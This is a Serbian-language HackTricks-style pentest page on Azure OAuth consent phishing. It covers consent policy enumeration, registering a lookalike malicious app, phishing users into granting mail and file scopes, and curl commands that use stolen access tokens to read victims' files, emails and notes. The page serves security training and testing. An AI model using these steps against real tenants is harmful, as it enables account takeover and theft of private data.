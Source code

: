 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure aplikacije** su konfigurisane sa dozvolama koje će moći da koriste kada korisnik da saglasnost aplikaciji (kao što su enumeracija direktorijuma, pristup datotekama ili obavljanje drugih radnji). Imajte na umu da aplikacija deluje u ime korisnika, tako da čak i ako aplikacija može tražiti administratorske dozvole, ako **korisnik koji daje saglasnost nema tu dozvolu**, aplikacija **neće moći da izvršava administratorske radnje**.

### Dozvole za saglasnost aplikacije

Podrazumevano, svaki **korisnik može dati saglasnost aplikacijama**, iako se ovo može konfigurisati tako da korisnici mogu dati saglasnost samo za **aplikacije od verifikovanih izdavača za odabrane dozvole** ili čak **ukloniti dozvolu** korisnicima da daju saglasnost aplikacijama.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

Ako korisnici ne mogu dati saglasnost, **administratori** kao što su `GA`, `Application Administrator` ili `Cloud Application` `Administrator` mogu **dati saglasnost aplikacijama** koje korisnici mogu koristiti.

Pored toga, ako korisnici mogu dati saglasnost samo za aplikacije koje koriste **niskorizične** dozvole, ove dozvole su podrazumevano **openid**, **profile**, **email**, **User.Read** i **offline_access**, iako je moguće **dodati više** na ovu listu.

Ako mogu dati saglasnost za sve aplikacije, mogu dati saglasnost za sve aplikacije.

### 2 Tipova napada

- **Neautentifikovani**: Iz spoljnog naloga kreirati aplikaciju sa **niskorizičnim dozvolama** `User.Read` i `User.ReadBasic.All`, na primer, phishing korisnika, i moći ćete da pristupite informacijama iz direktorijuma.
- Ovo zahteva da phished korisnik bude **u mogućnosti da prihvati OAuth aplikacije iz spoljnog tenanta**.
- Ako je phished korisnik neki administrator koji može **dati saglasnost bilo kojoj aplikaciji sa bilo kojim dozvolama**, aplikacija bi takođe mogla **tražiti privilegovane dozvole**.
- **Autentifikovani**: Nakon što je kompromitovan glavni korisnik sa dovoljno privilegija, **kreirati aplikaciju unutar naloga** i **phish** nekog **privilegovanog** korisnika koji može prihvatiti privilegovane OAuth dozvole.
- U ovom slučaju već možete pristupiti informacijama iz direktorijuma, tako da dozvola `User.ReadBasic.All` više nije zanimljiva.
- Verovatno ste zainteresovani za **dozvole koje zahtevaju da ih administrator odobri**, jer običan korisnik ne može dati OAuth aplikacijama nikakvu dozvolu, zato treba da **phishujete samo te korisnike** (više o tome koje uloge/dozvole daju ovu privilegiju kasnije).

### Korisnicima je dozvoljeno da daju saglasnost

Imajte na umu da morate izvršiti ovu komandu iz naloga unutar tenanta, ne možete pronaći ovu konfiguraciju tenanta iz spoljnog. Sledeći cli može vam pomoći da razumete dozvole korisnika:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Korisnici mogu da daju saglasnost za sve aplikacije: Ako unutar **`permissionGrantPoliciesAssigned`** pronađete: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` tada korisnici mogu da prihvate svaku aplikaciju.
- Korisnici mogu da daju saglasnost za aplikacije od verifikovanih izdavača ili vaše organizacije, ali samo za dozvole koje odaberete: Ako unutar **`permissionGrantPoliciesAssigned`** pronađete: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` tada korisnici mogu da prihvate svaku aplikaciju.
- **Onemogućite saglasnost korisnika**: Ako unutar **`permissionGrantPoliciesAssigned`** možete pronaći samo: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` i `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` tada korisnici ne mogu dati saglasnost.

Moguće je pronaći značenje svake od komentarisane politika u:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Administratori aplikacija**

Proverite korisnike koji se smatraju administratorima aplikacija (mogu prihvatiti nove aplikacije):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Pregled Tokova Napada**

Napad uključuje nekoliko koraka usmerenih na generičku kompaniju. Evo kako bi to moglo da se odvija:

1. **Registracija Domen i Hosting Aplikacije**: Napadač registruje domen koji podseća na pouzdanu stranicu, na primer, "safedomainlogin.com". Pod ovim domenom, kreira se poddomen (npr. "companyname.safedomainlogin.com") za hosting aplikacije dizajnirane da prikupi autorizacione kodove i zatraži pristupne tokene.
2. **Registracija Aplikacije u Azure AD**: Napadač zatim registruje Multi-Tenant Aplikaciju u svom Azure AD Tenant-u, nazivajući je po ciljanom preduzeću kako bi izgledala legitimno. Konfiguriše URL za preusmeravanje aplikacije da upućuje na poddomen koji hostuje zlonamernu aplikaciju.
3. **Postavljanje Dozvola**: Napadač postavlja aplikaciju sa raznim API dozvolama (npr. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Ove dozvole, kada ih korisnik odobri, omogućavaju napadaču da izvuče osetljive informacije u ime korisnika.
4. **Distribucija Zlonamernih Linkova**: Napadač kreira link koji sadrži ID klijenta zlonamerne aplikacije i deli ga sa ciljnim korisnicima, obmanjujući ih da daju saglasnost.

## Primer Napada

1. Registrujte **novu aplikaciju**. Može biti samo za trenutni direktorijum ako koristite korisnika iz napadnutog direktorijuma ili za bilo koji direktorijum ako je ovo spoljašnji napad (kao na sledećoj slici).
1. Takođe postavite **redirect URI** na očekivani URL gde želite da primite kod za dobijanje tokena (`http://localhost:8000/callback` po defaultu).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Zatim kreirajte tajnu aplikacije:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Izaberite API dozvole (npr. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Izvršite veb stranicu (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** koja traži dozvole:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Pošaljite URL žrtvi**
1. U ovom slučaju `http://localhost:8000`
6. **Žrtve** treba da **prihvate obaveštenje:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Koristite **pristupni token za pristup traženim dozvolama**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Ostali alati

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Pogledajte [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) da biste saznali kako da ga konfigurišete.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-eksploatacija

### Phishing post-eksploatacija

U zavisnosti od traženih dozvola, možda ćete moći da **pristupite različitim podacima o korisniku** (lista korisnika, grupa... ili čak da modifikujete podešavanja) i **informacijama o korisniku** (fajlovi, beleške, e-mailovi...). Zatim, možete koristiti ove dozvole da izvršite te radnje.

### Post-eksploatacija aplikacija

Pogledajte sekcije Aplikacije i Servisni Principal na stranici:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Reference

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
